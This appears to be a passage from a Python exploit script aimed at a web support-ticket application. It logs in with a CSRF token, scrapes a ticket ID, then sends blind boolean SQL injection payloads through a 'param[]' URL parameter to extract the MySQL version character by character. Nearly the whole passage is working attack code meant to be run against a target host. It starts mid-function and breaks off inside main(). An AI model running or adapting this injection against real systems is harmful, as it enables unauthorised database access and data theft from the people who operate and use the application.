 ```py
	global id_ticket
	ticket_url = 'http://' + rhost + '/support/?v=view_tickets'
	# Make the request to get id_ticket
	ticket_page = r.get(ticket_url, verify=False, proxies=proxies)
	# Get the index of the page, search for csrfMagicToken in it
	index = ticket_page.text.find("param[]")
	# Get only the csrfMagicToken in it
	id_ticket = ticket_page.text[index:index+128].split('"')[0]
	id_ticket = id_ticket.split('=')[1]
	if id_ticket:
		print("[+] We get the Token ID to SQLInjection! [+]")
		return id_ticket
	else:
		print("[+] Cannot get the Token ID [+]")
		print("[+] Have you manually opened a ticket??? This is mandatory to exploit!! [+]")
		exit

# Now, let's trigger the sqlinjection to get the username
def getVersion(rhost,id_ticket):
	sqli_target = 'http://' + rhost +"/support/?v=view_tickets&action=ticket&param[]="+id_ticket+"&param[]=attachment&param[]=2&param[]=7"
	limit = 1
	char = 42
	prefix = []
	print("[+] The version of MySQL is.... [+]")
	while(char!=123):
		injection_string = " and 1=1 and ascii(substring((select version()),%d,1))= %s" %(limit,char)
		target_prefix = sqli_target + injection_string
		response = r.get(target_prefix,proxies=proxies).text
		if "couldn't find" not in response:
			prefix.append(char)
			limit=limit+1
			extracted_char = ''.join(map(chr,prefix))
			sys.stdout.write(extracted_char)
			sys.stdout.flush()
			char=42
		else:
			char=char+1
			prefix = []

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username for bruteforce', required=True)
    parser.add_argument('-p', '--password', help='Password for the email', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    username = args.username
    password = args.password

    global login_url
    login_url = 'http://' + rhost + '/support/?v=login'
    '''Here we call the functions'''
    # Get the CSRF token
    getCSRFToken(rhost)
    # Try to login on the app
    login(csrf_token,username,password)
    # Let's get the id_ticket
    getTicketID(rhost)
    # Let's get the version of mysql
```